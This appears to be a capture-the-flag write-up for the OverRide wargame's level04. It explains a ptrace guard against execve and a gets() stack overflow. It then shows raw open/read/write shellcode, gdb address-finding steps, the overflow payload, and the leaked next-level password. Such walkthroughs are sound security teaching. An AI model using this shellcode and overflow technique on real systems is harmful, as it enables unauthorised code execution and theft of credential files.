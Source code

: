 1. Basically, when the child process send a signal to the parent process, it goes out of the while loop.

Either the status is an error signal (like segfault or so), the parent process goes to the `puts("child is exiting...")` line.

Either the signal is of another sort and it goes into the `ptrace` line of code.

If the signal is `SIGTRAP`, it means the child process has called an `execve` command on a program. This gives a chance to the parent process to make some actions before the program is executed. Here, the parent process decides to print `"no exec() for you"` and to kill its own pid, terminating the program.

2. The child process calls `gets` function on a buffer with no length protection. So we could erase the next instruction of the calling function, which is stored on the stack at `$ebp + 0x4`.
But our shellcode calls `execve("/bin/sh")`; so the program terminates with the string "no exec() for you".

Hence we need a shellcode which does not call the `execve` syscall.

The trick is to call a shellcode which open, read, and write on stdout the content of the file `/home/users/level05/.pass`.

[Here is one.](http://shell-storm.org/shellcode/files/shellcode-73.php)

3. The exploit:

    - We create a new environment variable containing our shellcode with open/read/write syscalls on level05/.pass file. We set several NOP instructions in front to take into account the discrepency in memory addresses that we have between gdb and outside of gdb:

    ```
    export SHELLCODE=`python -c 'print "\x90"*20 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
    ```

    - We launch `gdb ./level05`, breakpoint at beginning of function main, and at breakpoint launch the command `x/30s (*(char**)environ) to get a list of the first env variables.

    - We find our `SHELLCODE` variable and its address `0xffffd834` (WATCH OUT: this address might be different on different shell sessions).

    - Find the offset : we know $esp is at `184 bytes` from $ebp (cf beginning of main => `$ebp - 0x8` for alignment and then `$esp-0xb0`). We know that the buffer is located at `$esp+0x20` = `154 bytes` from $ebp. so the offset to The location of $eip of the calling function is `156 bytes` ($ebp+0x4).

    - We can pass our exploit script to the program (adding 16 bytes to the address of the env variable, to end up in the NOP suite of instructions):

    ```
    level04@OverRide:~$ (python -c 'print("A" * 156 + "\x44\xd8\xff\xff")') | ./level04
    Give me some shellcode, k
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
    child is exiting...
    ```